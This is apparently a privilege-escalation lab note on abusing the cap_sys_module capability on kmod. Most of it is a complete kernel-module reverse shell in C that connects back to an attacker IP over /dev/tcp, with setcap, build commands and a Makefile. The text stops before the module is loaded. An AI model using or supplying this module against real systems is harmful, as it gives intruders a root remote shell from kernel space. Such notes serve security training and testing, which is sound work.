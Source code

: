 #### Misconfiguring

```bash
setcap cap_sys_module+ep /usr/bin/kmod
```
If this capability is on kmod, It gives us power to load or unlaod kernel modules

#### Exploiting

- Change the IP address of the C code to the IP of your attacker machine.

```bash
cd
```

```bash
vim reverse-shell.c
```
- our payload
```c title:reverse-shell.c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.150/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```bash
mkdir lib/modules -p
```

```bash
cp -a /lib/modules/$(uname -r)/ lib/modules/$(uname -r)
```

```bash
vim Makefile
```

- make sure you are using tab functionality instead of spaces after all and clean to avoid running into issues
```Makefile title:Makefile
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
